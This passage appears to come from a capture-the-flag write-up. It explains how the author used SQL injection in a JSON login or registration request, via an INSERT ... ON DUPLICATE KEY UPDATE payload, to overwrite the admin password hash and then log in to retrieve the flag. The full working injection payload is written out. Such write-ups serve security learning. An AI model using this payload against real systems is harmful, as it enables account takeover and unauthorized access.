 But does not work, so we can't execute multiples statements, that limit us to only modify the INSERT statement so i search [can update inside a insert](https://www.google.com/search?client=firefox-b-d&q=can+update+inside+a+insert) and found  [Insert into a MySQL table or update if exists](https://stackoverflow.com/questions/4205181/insert-into-a-mysql-table-or-update-if-exists)  It refers me to the [Insert on duplicate documentation](https://dev.mysql.com/doc/refman/8.0/en/insert-on-duplicate.html)

So we can update is duplicated if is found inside a insert statement: I modify the payload to update the admin credentiasl to `admin:test`

In the JSON POST request i write the payload:
```json
{"username":"admin\", \"$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W\")ON DUPLICATE KEY UPDATE username='admin', password = '$2b$12$sW0HQKQth.YGe.01RuzsfurFSpL/h72rGBYBSWaowaAIr79slzy0W' -- -","password":"junk"}
```

![3-burpsuit-attack.png](./static/3-burpsuit-attack.png)

And login with `admin:test` credentials and get the flag:
```
http://167.71.138.188:30928/dashboard
```
![3-login-admin.png](./static/3-login-admin.png)